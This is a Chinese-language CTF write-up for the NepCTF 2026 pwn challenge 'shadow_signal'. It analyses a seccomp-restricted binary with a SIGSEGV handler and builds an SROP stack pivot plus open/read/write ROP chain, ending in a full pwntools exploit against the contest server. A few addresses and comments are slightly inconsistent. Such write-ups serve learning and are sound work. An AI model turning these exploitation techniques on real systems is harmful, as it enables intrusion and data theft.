



## 题面
"有一天，古老的村子突然出现了怪兽，打败怪兽的办法就是变成新的信号...关注这一题:变成信号的CTFer"  


## 分析

checksec 查看保护：  
```
❯ pwn checksec ./shadow_signal
[*] '/data/project/ctf-repo/pwn/nepctf2026/shadow_signal/shadow_signal'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
没有 canary 和 PIE。  

ceccomp 查看 scecomp 限制：  
```
❯ ceccomp probe shadow_signal
[INFO]: Start tracing process 3851597
[INFO]: Parsing seccomp filter loaded in process 3851597
open      -> ALLOW
openat    -> KILL_PROCESS
read      -> ALLOW
write     -> ALLOW
execve    -> KILL_PROCESS
execveat  -> KILL_PROCESS
mmap      -> ALLOW
mprotect  -> ALLOW
sendfile  -> KILL_PROCESS
ptrace    -> KILL_PROCESS
fork      -> KILL_PROCESS
```

限制了很多系统调用，看来是要 ORW。  

题目给了 ld 和 libc，patchelf 是必须的，然后看看 libc 版本：  
```
❯ strings libc.so.6 | grep 'GNU C Library'
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.13) stable release version 2.35.
```

ida pro 静态分析：
``` c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  const char *buf; // [rsp+8h] [rbp-8h] BYREF

  buf = nullptr;
  init(a1: argc, a2: argv, a3: envp);
  printf(format: "gift: %p\n", stdout);
  read(fd: 0, &buf, nbytes: 8u);
  puts(s: buf);
  return 0;
}
```

题目给了 stdout 的实际地址，stdout 这里打印的其实是 `_IO_2_1_stdout_@@GLIBC_2.2.5` 的地址。  
buf 位于 `rbp-8h` 没办法溢出。而且 puts 直接读 buf。实际上 puts 传参应该是 `const char *s`，这里就直接把 buf 当作指针直接传给 puts，puts 会打印那个地址的内容，如果地址是非法的就直接段错误了。  

看看 init 函数：  
``` c
__int64 init()
{
  __int64 v0; // rdi
  __int64 v1; // rdi
  struct sigaction act; // [rsp+0h] [rbp-A0h] BYREF

  setvbuf(stream: stdin, buf: nullptr, modes: 2, n: 0);
  setvbuf(stream: stdout, buf: nullptr, modes: 2, n: 0);
  setvbuf(stream: stderr, buf: nullptr, modes: 2, n: 0);
  act.sa_handler = (__sighandler_t)handler;
  sigemptyset(set: &act.sa_mask);
  act.sa_flags = 0x80000000;
  if ( sigaction(sig: 11, &act, oact: nullptr) != 0 )
    die(a1: "sigaction failed\n");
  protect_bss(a1: v0);
  return install_seccomp(a1: v1);
}
```

这个初始化函数核心在于注册 SIGSEGV 型号处理函数：`handler`。  

> 转维基百科 SIGSEGV：  
> 在POSIX兼容的平台上，SIGSEGV是当一个进程执行了一个无效的内存引用，或发生段错误时发送给它的信号。SIGSEGV的符号常量在头文件signal.h中定义。因为在不同平台上，信号数字可能变化，因此符号信号名被使用。通常，它是信号#11。  

看 `handler` 函数：  
``` c
__int64 handler()
{
  __int64 result; // rax
  _BYTE buf[256]; // [rsp+10h] [rbp-110h] BYREF
  __int64 *v2; // [rsp+110h] [rbp-10h]
  __int64 *v3; // [rsp+118h] [rbp-8h]
  __int64 savedregs; // [rsp+120h] [rbp+0h] BYREF
  void *retaddr; // [rsp+128h] [rbp+8h]

  v2 = &savedregs;
  shadow_saved_rip = (__int64)retaddr;
  write(fd: 1, buf: "signal\n", n: 7u);
  read(fd: 0, buf, nbytes: 0x500u);
  v3 = &savedregs;
  result = shadow_saved_rip;
  if ( retaddr != (void *)shadow_saved_rip )
  {
    write(fd: 1, buf: "shadow stack broken\n", n: 0x14u);
    _exit(status: 1);
  }
  return result;
}
```

这里有 shadow stack 保护。shadow stack 也就是影子栈，其隐藏程序的调用栈，该技术会将返回地址同时存储到调用栈和影子栈中，如果返回地址被破坏，也就是与影子栈匹配失败，就会终止程序。可以看到 handler 是有影子栈保护，我们无法劫持其的返回地址。  
但可以注意到，这里是由栈溢出可供使用的：

``` c
read(fd: 0, buf, nbytes: 0x500u);
```

但又没办法劫持返回地址就很难办。不过这里可是 handler 函数。在 handler 调用栈保存了 `struct sigcontext` 保存了完整的 CPU 上下文，也就是可以用 SROP 改变程序控制流。  

---
整体分析到这就差不多结束了，实际上在 NepCTF 开始的时候，我前几天只做过一道 SROP，对于 SROP 才刚刚入门。这一步实际到后面是 deepseek v4 帮我分析出来的。  
到这里，就差不多知道在 main 函数触发段错误进入 handler 函数做栈溢出覆盖 sigcontext 来进行 ORW。  

## 利用
上述思路只是一个开始，实际往往会更复杂。  
先把 gift 取了，这里可以 libc 的基址，这样就有了非常多可用的 Gadget。  
需要确定的是 stdout 返回的地址是 `_IO_2_1_stdout_@@GLIBC_2.2.5`，在 libc 是有两个 stdout 的：  



我们取 _IO_stdout 的偏移，实际这才是真正的 *FILE 结构体的地址，对于 stdout 这里不做过长的展开。  

```python
io = process("./shadow_signal")
elf = ELF("./shadow_signal")
libc = ELF("./libc.so.6")

_IO_stdout_offset = 0x21B780

io.recvuntil(b"gift: ")
stdout = int(io.recv(14), 16)
print("_IO_2_1_stdout_ address =", hex(stdout))
libc_base = stdout - _IO_stdout_offset
print("libc base address =", hex(libc_base))
```

检查下打印出来的 libc 基址是没问题的：  



然后要随便输入点东西触发段错误进入 handler 函数：
``` python
io.send(b"a" * 8)
```

接下来要覆盖 sigcontext。这里对我来说是比较新的知识点。首先覆盖后还得盖住影子栈，所以要得到 handler 的返回地址。  
这里连带上面为什么 handler 后面会有 sigcontext 一起屡下：  
程序进入 handler 之前，会在内核上构造 handler 的栈帧，其的返回地址是 __restore_rt，并且在之后放上 sigcontext。这样，在 handler 执行完成调用 ret 之后就会进入 __restore_rt，使用 sigreturn 系统调用从 sigcontext 恢复 CPU 上下文。实际上这才是 sigreturn 系统调用的真实用法。所以可得 handler 的返回地址，影子栈比较的地址，就是 __restore_rt 的地址，它的片段固定是：
``` asm
mov rax, 0xf
syscall
```

所以我们可以用 libc.search 找到这样的片段，确定是 __restore_rt：  
``` python
from pwn import *

libc = ELF("./libc.so.6")
context.arch = 'amd64'

for addr in libc.search(asm('mov rax, 0xf;syscall')):
    print(hex(addr))
```

返回：0x42520 没问题，这是 libc 的偏移量，加上 libc 基址就是实际返回地址了。  

可以先溢出看看，覆盖返回地址要是没有触发影子栈保护就说明拿到的地址是正确的。  
接着构造 sigframe。  

因为 execve 函数调用已经被 seccomp 封了，而 ORW 需要 3 次 SROP，很是麻烦。但这里可以用栈迁移，把挪到 bss 段构建 ORW 的 rop 链。而且栈上的地址因为 ALSR 实际也不是固定。迁移到 bss 才能固定住地址写字符串。  
所以这里就做栈迁移，并且用 read 写入一大串的 ROP。  
根据 ida pro 还有 readelf 发现 bss 段空间蛮大：
```
❯ readelf -S shadow_signal | sed -n '4,5p; 3,$ { /bss/ {p; n; p} }'
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [25] .bss              NOBITS           0000000000404020  00005010
       0000000000003048  0000000000000000  WA       0     0     32
```
有 0x3048 字节，可以迁移到这里，这样地址也能确定。  
选择 bss 段为 0x40500。sigframe 中 read 参数设定为：  

``` c
read(0, 0x40500, 0x500);
```

这道题二进制文件的 Gadget 很少，只能从 libc 找偏移量加上基址。  

``` python
context.kernel = "amd64"

restore_rt = libc_base + 0x42520
bss = 0x405000

frame = SigreturnFrame() 
frame.rax = 0
frame.rdi = 0
frame.rsi = bss
frame.rdx = 0x500
frame.rsp = bss
frame.rip = syscall_ret
```

接下来做 handler 的栈溢出：

``` python
payload = b"\x00" * 0x110
payload += p64(0)
payload += p64(restore_rt)
payload += bytes(frame)
payload += b"\x00" * (0x500 - len(payload))

io.recvuntil(b"signal")
io.send(payload)
```

这里稳妥点吧 read 的 0x500 字节都写满，不然打远程有时候会卡。  

接下来 handler 进入 __restore_rt 然后调用 sigreturn syscall，根据 sigcontext 恢复 CPU 上下文，调用 read 函数。  
之后我们构建 ORW 链。把 flag 的字符串丢比较远的地方， 就 bss + 0x100 了。前面写 rop 足够。然后从 libc 拉下一堆 64 位函数栈约定的 pop 寄存器 Gadget。  

``` python
restore_rt = libc_base + 0x42520
bss = 0x405000
syscall_ret = libc_base + 0x91316
popRdi = libc_base + 0x2A3E5
popRsi = libc_base + 0x2BE51
popRdxRbx = libc_base + 0x904A9
popRax = libc_base + 0x45eb0
xchg_edi_eax = libc_base + 0x164f9e

flag_addr = bss + 0x100

rop = b""
# open("flag", O_RDONLY)
rop += p64(popRdi) + p64(flag_addr)
rop += p64(popRsi) + p64(0)
rop += p64(popRax) + p64(2)
rop += p64(syscall_ret)

#read(fd, buf, 0x100)
rop += p64(xchg_edi_eax)
rop += p64(popRsi) + p64(flag_addr)
rop += p64(popRdxRbx) + p64(0x100) + p64(0)
rop += p64(popRax) + p64(0)
rop += p64(syscall_ret)

# write(1, buf, 0x100)
rop += p64(popRdi) + p64(1)
rop += p64(popRsi) + p64(flag_addr)
rop += p64(popRdxRbx) + p64(0x100) + p64(0)
rop += p64(popRax) + p64(1)
rop += p64(syscall_ret)

rop = rop.ljust(flag_addr - bss, b"\x00")
rop += b"/flag\x00"
io.send(rop)
```

应该好理解。在调用 read 的时候 fd 对应 rdi 寄存器用 xchg 从 eax 交换来，因为前面 open 返回的 fd 会保存在 rax，而 gadget 没有好的 pop rax;ret 用这个来代替也没问题。  
rax 的 gadget 还有跟上 rbx ，rbx 是通用寄存器，直接置零即可。  
因为前面 sigframe 把 rsp 迁移到制定的 bss 段进行栈迁移了，后面 syscall 后的 ret 就会把 rip 变更到 rsp 位置，继续执行 gadget 代码。  



## exp
``` python
from pwn import *

context.arch = "amd64"
context.os = "linux"
context.kernel = "amd64"
io = remote("g6l3r9r0-nps4-am2k-4fwd-6a5b0a8b30136-neptune.nepctf.com", 443, ssl=True)
#io = process("./shadow_signal")
elf = ELF("./shadow_signal")
libc = ELF("./libc.so.6")

_IO_stdout_offset = 0x21B780

io.recvuntil(b"gift: ")
stdout = int(io.recv(14), 16)
print("_IO_2_1_stdout_ address =", hex(stdout))
libc_base = stdout - _IO_stdout_offset
print("libc base address =", hex(libc_base))

restore_rt = libc_base + 0x42520
bss = 0x405000
syscall_ret = libc_base + 0x91316
popRdi = libc_base + 0x2A3E5
popRsi = libc_base + 0x2BE51
popRdxRbx = libc_base + 0x904A9
popRax = libc_base + 0x45eb0
xchg_edi_eax = libc_base + 0x164f9e
io.send(b"a" * 8)

frame = SigreturnFrame() 
frame.rax = 0
frame.rdi = 0
frame.rsi = bss
frame.rdx = 0x500
frame.rsp = bss
frame.rip = syscall_ret
#frame.eflags = 0x202
#frame.csgsfs = 0x33
#frame["uc_stack.ss_flags"] = 2


payload = b"\x00" * 0x110
payload += p64(0)
payload += p64(restore_rt)
payload += bytes(frame)
payload += b"\x00" * (0x500 - len(payload))

io.recvuntil(b"signal")
io.send(payload)

flag_addr = bss + 0x100

rop = b""
# open("flag", O_RDONLY)
rop += p64(popRdi) + p64(flag_addr)
rop += p64(popRsi) + p64(0)
rop += p64(popRax) + p64(2)
rop += p64(syscall_ret)

#read(fd, buf, 0x100)
rop += p64(xchg_edi_eax)
rop += p64(popRsi) + p64(flag_addr)
rop += p64(popRdxRbx) + p64(0x100) + p64(0)
rop += p64(popRax) + p64(0)
rop += p64(syscall_ret)

# write(1, buf, 0x100)
rop += p64(popRdi) + p64(1)
rop += p64(popRsi) + p64(flag_addr)
rop += p64(popRdxRbx) + p64(0x100) + p64(0)
rop += p64(popRax) + p64(1)
rop += p64(syscall_ret)

rop = rop.ljust(flag_addr - bss, b"\x00")
rop += b"/flag\x00"
io.send(rop)

io.interactive()
```

## 后记
做完之后才感觉这道题其实算还好的。没有 PIE，还给了 libc。主要是 SROP 和 ORW 的利用。还需要很多繁琐的调试，不能畏惧题目，要相信：No System is safe!  

